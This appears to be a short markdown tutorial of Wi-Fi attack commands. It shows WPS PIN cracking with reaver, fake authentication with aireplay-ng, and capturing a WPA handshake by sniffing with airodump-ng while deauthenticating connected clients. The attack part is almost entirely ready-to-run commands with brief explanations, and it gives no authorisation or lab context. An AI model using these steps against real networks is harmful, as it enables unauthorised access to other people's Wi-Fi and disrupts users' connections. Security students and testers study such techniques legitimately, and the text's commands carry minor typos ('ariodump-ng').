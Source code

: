 # WPA & WPA-2 Cracking using WPS Feature

First we need to check if the network has WPS enabled
 ```bash
wash --interface wlan0
 ``` 
If this command does not work we can simply use **airodump-ng** to get the information we need
and just make a try for the attack

1. we need to run a reaver command which will do tha WPS cracking for us
 ```bash
reaver --bssid <NetworkMAC> --channel <NetworkChannel> --interface <InterfaceName> -vvv --no-associate
 ``` 
> argument -vvv is to see as much information as possible
> argument --no-associate is to tell reaver we don't want to associate with the network because we are going to do it manually
2. Once the reaver command is launch we need to associate to the network using the **fakeauth** attack
 ```bash
aireplay-ng --fakeauth 30 -a <NetworkMac> -h <InterfaceMac> <InterfaceName>
 ``` 

# WPA & WPA2 Cracking Using HandShake

## HandShake
When we connect to a wifi using it's password router make an handshake with the device.

Handshake does not tells the the password for the network but can tell if the password is right or wrong.

## How to capture a handshake
1. Start **targeted packet sniffing** using ariodump-ng
> Keep one thing in mind your adopter should be in **Monitor Mode** So you should run Monitor Mode file first
> ```bash
> airodump-ng --bssid <mac of adoptor> --channel <channel of adoptor> --write <file name to write> <adoptor name>
> ``` 
Now without shutting down the process

Open another terminal 
2. Do a **de-auth attack** to any of the devices connected to the **network**
> Command to launch a **de-auth attack**
> ```bash
> aireplay-ng --deauth [#deauthPackets] -a [NetworkMac] -c [TargetMac] [Interface]
> ``` 
> use deauthPackets = 4 to send deauth attack for less time

